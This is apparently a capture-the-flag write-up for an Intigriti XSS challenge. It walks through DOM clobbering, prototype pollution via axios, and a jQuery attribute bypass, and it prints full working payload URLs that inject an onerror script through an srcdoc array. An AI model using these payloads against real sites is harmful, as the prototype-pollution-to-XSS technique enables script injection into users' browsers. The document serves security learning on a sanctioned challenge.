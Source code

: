 + dom clobbering in search parameter.insert another <form id=”search”> above the form that’s in the challenge page. However, this would only allow me to hijack the searches, and that wouldn’t get me an XSS.

+ prototype pollution in axios library
payload: https://challenge-0124.intigriti.io/challenge?search=con&name=%3Cform+id%3Dsearch%3E%3Cinput+name%3D%22__proto__%5Bintigriti%5D%22+value%3D%22rodriguezjorgex%22%3E

+bypassing jquery checks
```
 if (repo.homepage && repo.homepage.startsWith("https://")) {
                $("#homepage").attr({
                    "src": repo.homepage,
                    "hidden": false
```
payload: `https://challenge-0124.intigriti.io/challenge?search=con&name=<form id=search><input name="__proto__[srcdoc][]" value="<img/src/onerror=alert(document.domain)>"><input name="__proto__[homepage]" value="https://google.com"><input name="__proto__[owner]" value="test">`
We get this error:
jquery-3.7.1.min.js:2 Uncaught (in promise) TypeError: Cannot use 'in' operator to search for 'set' in https://google.com
+ f I set the i variable to an array, it will bypass the error, and the e.setAttribute() function will be called, setting an attribute in the <iframe> tag. So if I can add an srcdoc attribute
+ by using __proto__[srcdoc][], I can make srcdoc into an array, and bypass the error, then execute the e.setAttribute function. Here’s the final payload:
`https://challenge-0124.intigriti.io/challenge?search=con&name=<form id=search><input name="__proto__[srcdoc][]" value="<img/src/onerror=alert(document.domain)>"><input name="__proto__[homepage]" value="https://google.com"><input name="__proto__[owner]" value="test">`
+ ![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/350819e0-e47c-4275-b07e-22c930831492)


